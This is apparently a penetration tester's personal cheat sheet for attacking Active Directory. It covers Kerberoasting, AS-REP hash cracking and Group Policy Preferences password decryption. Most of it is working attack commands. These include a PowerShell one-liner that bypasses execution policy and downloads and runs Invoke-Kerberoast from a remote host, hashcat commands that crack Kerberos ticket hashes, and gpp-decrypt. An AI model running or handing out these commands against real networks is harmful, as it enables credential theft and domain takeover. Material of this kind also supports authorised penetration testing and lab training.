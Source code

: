 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

AD

**KERBEROASTING**

Enumerating Accounts in SPN (Service Principal Name):

Powershell Commands when Accessible

~~~PowerShell
setspn -T "DOMAIN\USER" -Q ​ */*
~~~

~~~PowerShell
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('http://10.13.7.30/Windows/Powershell/Empire/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat
~~~

Decrypt etype23 Hashes from Kerberoasted passwords:

format::
$krb5tgs$23$*SQLService$CONTROLLER.local$CONTROLLER-1/SQLService.CONTROLLER.local:30111*$A88A8D57DAEBC82CC......

~~~bash
hashcat -m 13100 -​a 0 hash.txt wordlist --force
~~~

Decrypt etype23 Hashes from AS-REP passwords:

format::
$krb5asrep$Admin2@CONTROLLER.local:C669E64E38F0BDC104039C58......

~~~bash
hashcat -m 18200 hash.txt Pass.txt
~~~

**GPP**

https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/

Relies on groups.xml found in sysvol

~~~bash
gpp-decrypt Hash
~~~

Metasploit post module

~~~bash
smb_enum_gpp
~~~


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

